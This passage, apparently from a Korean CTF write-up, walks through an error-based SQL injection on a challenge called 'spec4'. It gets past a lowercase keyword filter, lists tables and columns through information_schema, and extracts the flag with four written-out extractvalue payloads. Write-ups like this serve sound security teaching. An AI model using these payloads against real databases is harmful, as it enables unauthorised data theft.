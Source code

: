 - 이후 테이블 이름을 추출하기 위해 `information_schema.tables`를 대상으로 쿼리를 시도하였다.
하지만 소문자 `select` 키워드에 필터링이 적용되어 있어, **대문자 `SELECT`를 사용하여 우회**하였다. 

```html
neon'%0aor%0aextractvalue(1,concat(0x7e,(SELECT%0atable_name%0afrom%0ainformation_schema.tables%0awhere%0atable_schema='spec4'%0alimit%0a0,1)))%0aand%0a'1'='1
```

- 쿼리 실행 결과, 테이블 이름으로 **flags**가 출력되었고, 이후 이 테이블을 대상으로 컬럼 및 데이터를 조회할 수 있었다.

- 이제 이어서 컬럼 이름과 테이블 내 데이터를 순차적으로 추출해볼 예정이다, 우선 `information_schema.columns`를 사용하여 `flags` 테이블의 컬럼명을 확인하기 위해 다음과 같은 쿼리를 입력하였다.

```html
neon'%0aor%0aextractvalue(1,concat(0x7e,(SELECT%0acolumn_name%0afrom%0ainformation_schema.columns%0awhere%0atable_schema='spec4'%0aand%0atable_name='flags'%0alimit%0a0,1)))%0aand%0a'1'='1
```

- `information_schema.columns`를 활용한 쿼리 결과,
`flags` 테이블에는 `flag_id`, `flag`, `description`, `created_at` 컬럼이 존재함을 확인하였다.

- 최종적으로 다음과 같은 **에러 기반 SQL Injection 페이로드**를 이용하여 flag 값을 추출하였다.

```html
neon'%0aor%0aextractvalue(1,concat(0x7e,(SELECT%0aflag%0afrom%0aflags%0alimit%0a0,1)))%0aand%0a'1'='1
```

![spec4 flag](./screenshots/spec4_flag.png)

- 플래그를 추출하는 과정에서 응답 길이 제한으로 인해 일부 값이 잘려 출력되는 문제가 발생하였다. 이를 해결하기 위해, 아래와 같은 쿼리를 사용하여 flag 값의 뒷부분을 `substring()` 함수를 통해 분할 추출하였다.

```html
neon'%0aor%0aextractvalue(1,concat(0x7e,(SELECT%0asubstring(flag,31,32)%0afrom%0aspec4.flags%0alimit%0a0,1)))%0aand%0a'1'='1
```

**이렇게 최종 flag를 얻었다.**

---

### 보안 커뮤니티
